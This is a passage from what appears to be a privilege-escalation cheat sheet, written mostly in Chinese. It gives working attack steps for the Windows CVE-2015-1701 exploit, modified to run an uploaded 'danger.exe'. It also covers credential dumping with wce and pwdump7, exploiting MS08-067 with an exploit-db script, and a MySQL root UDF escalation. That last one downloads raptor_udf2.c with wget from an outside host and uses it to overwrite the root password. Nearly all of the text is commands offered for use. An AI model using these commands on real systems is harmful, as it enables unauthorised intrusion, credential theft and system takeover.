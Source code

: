 https://www.fireeye.com/blog/threat-research/2015/04/probable_apt28_useo.html


https://www.exploit-db.com/exploits/37049/

# 查找目标机器是否安装了补丁，输入如下命令
wmic qfe get
wmic qfe | find "3057191"

# 上传编译后的利用程序并运行它

https://github.com/hfiref0x/CVE-2015-1701/raw/master/Compiled/Taihou64.exe

# 默认情况下其会以系统权限执行 cmd.exe，但我们需要改变源代码以运行我们上传的 danger.exe
# https://github.com/hfiref0x/CVE-2015-1701 下载它并定位到 "main.c"

# 使用 wce.exe 获取已登录用户的明文账号密码

http://www.ampliasecurity.com/research/windows-credentials-editor/

wce -w

# 使用 pwdump7 获取其他用户的密码哈希值

http://www.heise.de/download/pwdump.html

# we can try online hash cracking tools such crackstation.net

MS08-067 – 不使用 Metasploit

$ nmap -v -p 139, 445 --script=smb-check-vulns --script-args=unsafe=1 192.168.31.205
$ searchsploit ms08-067
$ python /usr/share/exploitdb/platforms/windows/remote/7132.py 192.168.31.205 1
```
通过 MySQL Root 账户实现提权
```
# Mysql Server version: 5.5.44-0ubuntu0.14.04.1 (Ubuntu)
$ wget 0xdeadbeef.info/exploits/raptor_udf2.c
$ gcc -g -c raptor_udf2.c
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root -p
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/user/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
mysql> select do_system('echo "root:passwd" | chpasswd > /tmp/out; chown user:user /tmp/out');

